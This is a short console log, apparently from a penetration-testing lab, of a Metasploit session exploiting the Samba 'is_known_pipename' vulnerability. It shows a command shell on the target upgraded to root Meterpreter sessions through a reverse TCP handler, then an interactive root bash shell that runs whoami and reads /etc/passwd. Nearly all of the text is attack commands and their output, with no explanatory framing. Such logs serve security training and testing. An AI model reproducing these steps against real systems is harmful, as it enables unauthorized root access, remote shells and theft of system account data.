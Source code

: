 ```
msf5 exploit(linux/samba/is_known_pipename) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.111.31.2:33589 -> 192.111.31.3:445 (192.111.31.3)

msf5 exploit(linux/samba/is_known_pipename) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.111.31.2:4433 
[*] Sending stage (985320 bytes) to 192.111.31.3
[*] Meterpreter session 2 opened (192.111.31.2:4433 -> 192.111.31.3:48926) at 2023-03-10 14:54:12 +0000
[*] Sending stage (985320 bytes) to 192.111.31.3
[*] Meterpreter session 3 opened (192.111.31.2:4433 -> 192.111.31.3:51520) at 2023-03-10 14:54:16 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 exploit(linux/samba/is_known_pipename) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                  Connection
  --  ----  ----                   -----------                                  ----------
  1         shell cmd/unix                                                      192.111.31.2:33589 -> 192.111.31.3:445 (192.111.31.3)
  2         meterpreter x86/linux                                               192.111.31.2:4433 -> 192.111.31.3:48926 (192.111.31.3)
  3         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.111.31.3  192.111.31.2:4433 -> 192.111.31.3:51520 (192.111.31.3)
```

```
msf5 exploit(linux/samba/is_known_pipename) > sessions 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer     : 192.111.31.3
OS           : Debian 8.11 (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

```
meterpreter > shell
Process 69 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:/tmp# whoami
whoami
root
root@victim-1:/tmp# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
```